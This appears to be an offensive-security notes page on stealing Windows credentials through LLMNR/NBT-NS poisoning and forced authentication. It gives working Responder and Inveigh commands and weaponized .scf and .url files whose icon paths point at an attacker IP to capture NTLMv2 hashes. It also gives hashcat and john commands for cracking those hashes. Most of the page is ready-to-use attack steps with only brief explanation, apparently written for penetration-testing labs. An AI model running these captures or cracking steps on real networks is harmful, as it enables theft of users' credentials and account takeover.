 ```yaml
---
description: Credential Access, Stealing hashes
---
```


# LLMNR Poisoning/Forced Authentication

## LLMNR Poisoning

Link-Local Multicast Name Resolution (LLMNR) is a protocol that is able to perform name resolution in the absence of a DNS server. When a request is made for a share such as `\\Fileshares` and the user accidently instead types `\\Filesharez` getting the share name incorrect DNS would first attempt to resolve the target share and when failing to do so (As it does not exist) It will fallback to LLMNR.

Once DNS has failed to resolve the request and LLMNR kicks in the requesting machine will send out a broadcast on the subnet asking if anyone of the other devices can connect them to the share `\\Filesharez` The attacking machine on the network will respond to the request stating that it can get them connected to the share. At this point the requesting (victim) machine will send the username and NTLMv2 hash of the account requesting the resource over to the malicious machine.

Responder will print it out on screen and write it to a log file per host located in the `/usr/share/responder/logs` directory. Hashes are saved in the format `(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt`, and one hash is printed to the console and stored in its associated log file unless `-v` mode is enabled

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Analysis Mode

```
sudo responder -I ens224 -A 
```

### via SSRF

{% embed url="https://lojique.gitbook.io/proving-grounds/v/heist/web-enum/website" %}

### Inveigh

LLMNR & NBT-NS poisoning is possible from a Windows host as well. The tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.&#x20;

#### Powershell

```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

#### C# ([InveighZero](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework\_4.7\_x86/Inveigh.exe))

```powershell-session
.\Inveigh.exe
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
```

We can also see the message `Press ESC to enter/exit interactive console`, which is very useful while running the tool. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.

\


## Forced Authentication

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication" %}

### Execution via .SCF

Place the below `.scf` file on the attacker controlled machine in a shared folder

{% code title="pwn.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\192.168.123.123\home\kali\pwn.scf
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

### Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.123.123\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

## Example

{% embed url="https://lojique.gitbook.io/proving-grounds/v/vault/other-services-enumeration/445-smb" %}

## Cracking NTLMv2

```bash
# On Kali
hashcat -m 5600 'pasted hash' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt
```

```bash
# On windows host
hashcat.exe -m 5600 hash.txt rockyou.txt -O
```

## Resources

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/llmnr" %}

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks" %}

{% embed url="https://attack.mitre.org/techniques/T1557/001/" %}
